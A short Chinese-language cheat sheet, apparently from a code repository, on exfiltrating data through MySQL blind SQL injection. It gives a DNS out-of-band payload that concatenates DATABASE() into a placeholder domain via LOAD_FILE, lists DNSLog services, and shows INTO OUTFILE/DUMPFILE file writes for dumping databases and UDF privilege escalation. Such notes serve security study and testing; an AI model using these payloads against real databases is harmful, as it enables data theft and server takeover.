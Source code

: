 # mysql盲注数据外带
## dns注入

### 前提条件
- windows系统下，且smb可用
- 安装了smb服务的linux(概率很小)
- mysql配置项`secure_file_priv`留空


### mysql配置项`secure_file_priv`简介
- `secure_file_priv`值为null时，mysqld不允许导入导出
- `secure_file_priv`值为空时，mysqld导入导出无限制
- `secure_file_priv`值为`/data/`时，mysqld导入导出路径只能为`/data/`
- 可执行`show global variables like '%secure%'`查看配置


### mysql读取文件

```
select load_file(filepath);
```

`filepath`可以输入:
- 相对路径`./filepath`
- 全局路径`C:/filepath`
- 网络共享路径`//filepath`

### dns日志

开源项目：https://github.com/BugScanTeam/DNSLog

在线工具：http://www.dnslog.cn

### demo

- 数据外带
  ```
  SELECT LOAD_FILE(CONCAT('//'.DATABASE(),'.xxx.xxx.com'));
  ```

## 写入脚本文件漏洞利用

### mysql写文件`select into`

- `outfile`可以写入多行，可输出终止符和换行格式，常用与脱库

- `dumpfile`只可写一行，并且输出中不存在任何格式，导入二进制文件不会因换行符导致文件被破坏，所以常用于写入软件 _udf提权_

### demo


- `select 123 into outfile './1.txt'`
